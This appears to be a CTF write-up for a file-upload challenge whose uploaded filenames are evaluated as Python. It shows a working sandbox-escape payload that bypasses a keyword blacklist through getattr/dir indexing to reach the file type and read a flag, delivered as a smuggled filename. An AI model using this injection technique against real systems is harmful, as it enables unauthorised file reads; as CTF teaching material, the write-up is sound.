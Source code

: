 # The Most Secure File Uploader

1.png
54/306 = 18% of the teams solved this challenge.

## Phase: Reconnaissance
Here we need to figure out how the challenge works, and figure out what we can exploit.

2.png
Here we can see it's a file upload. File uploaders are often insecure, let's upload something.

6.png
3.png
We see that the URL say's it a php file, but the error message looks like python. This is probably just a trick to confuse you.

We know from this that it tries to do something with the filename, and we get a error. Let's upload something that does not end with a image extension (.jpg/.png etc).
4.png

Okay, uploading something other than `*.png` we get an error. Here we try upload some different payloads and see what the output is.

`hej.vad.png` =>   Traceback (most recent call last): File "", line 1, in NameError: name 'hej' is not defined
`0.png` =>         File "", line 1 0.png ^ SyntaxError: invalid syntax
`AAAA).png` =>     File "", line 1 AAAA).png ^ SyntaxError: invalid syntax
`$flag.png`  =>    File "", line 1 .png ^ SyntaxError: invalid syntax
`__debug__.png` => Traceback (most recent call last): File "", line 1, in AttributeError: 'bool' object has no attribute 'png'
`__debug__.__str__.png` => Traceback (most recent call last): File "", line 1, in AttributeError: 'method-wrapper' object has no attribute 'png'
`123456789[:-1].png` Traceback (most recent call last): File "", line 1, in TypeError: 'int' object has no attribute '__getitem__'

As you can see, when we did the CTF, we fell in the php trap and though the server was running php code. The more we tried, we noticed that it's definately python error messages.

And the breakthrough were when we added a # at the end to comment out the .png part as it seem to be failing on that line.
5.png

### Blacklist
As we try upload some known python names, like __class__.png 
7.png
...And there seem to be a blacklist.

Iterating over some known and `useful` python stuff we get the following blacklist:

`subprocesses|os|import|builtins|eval|locals|class|;|file` 

and the file must end with a .png.


## Phase: Exploit - Python sandbox escape
From the reconnisance phase we notice the challenge is a Python sandbox escape.
Usually the flag is hidden on the server in a .txt file, so our goal is to read a file.

`().__class__.__base__.__subclasses__()[40]("flag.txt").read()` 
Here is the line we want to execute, but from the reco phase we know that class, subclasses is blacklisted.
To circumvent this we need to figure out another way to run __class__ and __subclasses__ without actually typing it.

```
>>> dir([])[1]
'__class__'
```

Okay, we can now write the __class__ without directly typing it to bypass the blacklist.

```
>>> getattr((), dir([])[1])
<type 'tuple'>
```
This translates to `[].__class__`.

Okay so next we want to append __base__.

```
>>> getattr((), dir([])[1]).__base__
<type 'object'>
```
And now we want to append __subclassses__, but we know class is blacklisted so we have to bypass it somehow.

```
>>> dir(().__class__.__base__.__class__)
['__abstractmethods__', '__base__', '__bases__', '__basicsize__', '__call__', '__class__', '__delattr__', '__dict__', '__dictoffset__', '__doc__', '__eq__', '__flags__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__instancecheck__', '__itemsize__', '__le__', '__lt__', '__module__', '__mro__', '__name__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasscheck__', '__subclasses__', '__subclasshook__', '__weakrefoffset__', 'mro']
```
We've found the __subclasses__. Now we just have to write the same command without using class.

```
>>> dir(getattr(getattr(getattr((), dir([])[1]),'__base__'),  dir([])[1]))
['__abstractmethods__', '__base__', '__bases__', '__basicsize__', '__call__', '__class__', '__delattr__', '__dict__', '__dictoffset__', '__doc__', '__eq__', '__flags__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__instancecheck__', '__itemsize__', '__le__', '__lt__', '__module__', '__mro__', '__name__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasscheck__', '__subclasses__', '__subclasshook__', '__weakrefoffset__', 'mro']
```

Great! Let's extract what we want:
```
>>> dir(().__class__.__base__.__class__)[34]
'__subclasses__'
```

If we combine what we have so far:
```
getattr(getattr(getattr((), dir([])[1]),'__base__'),dir(getattr(getattr(getattr((), dir([])[1]),'__base__'),  dir([])[1]))[34])
<built-in method __subclasses__ of type object at 0x5610a5dd6980>
```

Adding () to call the __subclasses__ function.

```
>>> getattr(getattr(getattr((), dir([])[1]),'__base__'),dir(getattr(getattr(getattr((), dir([])[1]),'__base__'),  dir([])[1]))[34])()
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>, <type 'sys.version_info'>, <type 'sys.flags'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'posix.stat_result'>, <type 'posix.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>, <class '_abcoll.Container'>, <class '_abcoll.Callable'>, <type 'dict_keys'>, <type 'dict_items'>, <type 'dict_values'>, <class 'site._Printer'>, <class 'site._Helper'>, <type '_sre.SRE_Pattern'>, <type '_sre.SRE_Match'>, <type '_sre.SRE_Scanner'>, <class 'site.Quitter'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>]
>>> getattr(getattr(getattr((), dir([])[1]),'__base__'),dir(getattr(getattr(getattr((), dir([])[1]),'__base__'),  dir([])[1]))[34])()[40]
<type 'file'>
>>> 

Let's combine our payload and upload it to get the flag.
```mv payload.png "print getattr(getattr(getattr((), dir([])[1]),'__base__'),dir(getattr(getattr(getattr((), dir([])[1]),'__base__'),  dir([])[1]))[34])()[40]('flag').read()#.png"```


8.png
